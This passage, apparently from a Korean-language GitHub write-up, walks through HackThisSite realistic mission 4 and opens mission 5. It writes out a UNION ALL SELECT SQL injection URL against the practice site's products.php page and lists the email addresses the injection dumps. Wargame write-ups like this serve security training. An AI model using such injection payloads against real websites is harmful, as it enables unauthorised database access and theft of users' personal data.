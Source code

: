 이메일 입력창에 이메일 형식이 맞지 않는 문자를 입력했더니 아래와같이 메시지가 나왔다.
```text
Error inserting into table "email"! Email not valid!
```
- 테이블 명이 email인 것을 알 수 있음! (블라인드 인젝션인듯?)
- 쿼리문을 추가하여 출력해보기로 하였다. 다음 주소를 브라우저창에 입력하였다.
```text
http://www.hackthissite.org/missions/realistic/4/products.php?category=1 UNION ALL SELECT null,*,null,null FROM email
```
- 결과: 이메일 출력되었다. 이메일 출력된 결과는 다음과 같다.
```text
alph-alpha-brown@hotmail.com
sam.goodwin@yahoo.com
UltraDeathLaser@aol.com
SwingLow@hotmail.com
TeaBody@aol.com
jsmith@uic.edu
3ambeer@graffiti.net
shootfirst@yahoo.com
Bobby@friends.com
```

- 출력된 이메일을 HTS 메시지로 SaveTheWhales에게 전송하면 클리어했다고 메시지 온다.

![4_SaveTheWhales.png](images/4_SaveTheWhales.png)

## Level 5. Damn Telemarketers!
### 문제해결

- form등에서 인젝션 취약점 없는듯
- database 탭 확인
